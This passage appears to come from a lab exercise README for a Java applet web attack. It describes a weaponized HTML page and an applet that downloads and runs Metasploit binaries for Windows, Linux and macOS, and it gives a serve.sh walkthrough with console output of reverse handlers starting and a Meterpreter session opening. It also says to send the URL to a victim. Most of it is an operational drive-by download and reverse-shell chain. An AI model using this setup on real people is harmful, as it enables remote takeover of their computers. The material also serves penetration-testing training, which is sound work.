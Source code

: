 * index.html - Copy of the HTML file you specified, now weaponized to deliver the Java applet payload.
* applet.jar - The Java applet that is inserted into the page.
* msf.exe - The Windows binary that the Java applet downloads and executes.
* nix.bin - The Linux binary that the Java applet downloads and executes.
* mac.bin - The Mac OS X binary that the Java applet downloads and executes.
* listeners.rc - A Metasploit resource file that starts listeners for each of the payloads for you.

Example 3: Starting the Attack Server
-------------------------------------

Setting up the server to deliver the weaponized page, payloads, and handlers requires an HTTP server and Metasploit. You can use any HTTP server, such as Apache. `weaponize.py` generates a **listeners.rc** file in the **output** directory that will set up the payload listeners.

`serve.sh` automates these steps for you. It will stop the Apache web server if it is running, start up a lightweight Python HTTP server, and run `msfconsole` with the generated resource script to set up the payload listeners. It will take a minute or two to completely set up the payload listeners so please be patient.

Note: Since this shuts down Apache during the attack, you will be unable to access these intructions through the normal method. Please leave this page open without refreshing until you have completed the exercise and restarted Apache.

`/opt/java-web-attack#` **`./serve.sh`**

        Shutting down Apache...
         * Stopping web server apache2 *
        Starting python web server...
        Now starting payload listeners. Please be patient.
        [*] Starting the Metasploit Framework console...
        <<<snip>>>
        [*] Started reverse handler on 172.16.215.138:3000
        <<<snip>>>
        [*] Started reverse handler on 172.16.215.138:3001
        <<<snip>>>
        [*] Started reverse handler on 172.16.215.138:3002
        <<<snip>>>
        You may now surf to http://172.16.215.138/
        msf exploit(handler) >

Once you see the text **You may now surf to** you are all set. Visit the URL provided in your browser or send it to your victim. When you do, accept the Java prompts and you should see feeback in your console window saying that you have a new session.

        [*] Sending stage (770048 bytes) to 172.16.215.137
        [*] Meterpreter session 1 opened (172.16.215.138:3000 -> 172.16.215.137:1104)

You may interact with your session by using the session number shown in your own output. In this case, it is session number 1.

**`sessions -i 1`**

        [*] Starting interaction with 1...
        meterpreter >
